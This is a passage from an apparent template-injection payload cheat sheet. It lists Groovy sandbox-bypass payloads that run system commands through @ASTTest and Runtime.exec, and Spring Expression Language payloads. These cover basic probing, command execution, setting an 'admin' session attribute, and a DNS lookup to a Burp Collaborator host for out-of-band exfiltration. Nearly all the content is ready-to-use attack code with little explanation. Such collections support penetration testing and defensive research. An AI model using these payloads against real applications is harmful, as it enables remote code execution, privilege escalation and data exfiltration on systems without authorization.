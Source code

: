 ### Groovy - Sandbox Bypass

```groovy
${ @ASTTest(value={assert java.lang.Runtime.getRuntime().exec("whoami")})
def x }
```

or

```groovy
${ new groovy.lang.GroovyClassLoader().parseClass("@groovy.transform.ASTTest(value={assert java.lang.Runtime.getRuntime().exec(\"calc.exe\")})def x") }
```

---

## Spring Expression Language

[Official website](https://docs.spring.io/spring-framework/docs/3.0.x/reference/expressions.html)

> The Spring Expression Language (SpEL for short) is a powerful expression language that supports querying and manipulating an object graph at runtime. The language syntax is similar to Unified EL but offers additional features, most notably method invocation and basic string templating functionality.

### SpEL - Basic Injection

```java
${7*7}
${'patt'.toString().replace('a', 'x')}
```


### SpEL - DNS Exfiltration

DNS lookup

```java
${"".getClass().forName("java.net.InetAddress").getMethod("getByName","".getClass()).invoke("","xxxxxxxxxxxxxx.burpcollaborator.net")}
```


### SpEL - Session Attributes

Modify session attributes

```java
${pageContext.request.getSession().setAttribute("admin",true)}
```


### SpEL - Command Execution

* Method using `java.lang.Runtime` #1 - accessed with JavaClass
    ```java
    ${T(java.lang.Runtime).getRuntime().exec("COMMAND_HERE")}
    ```
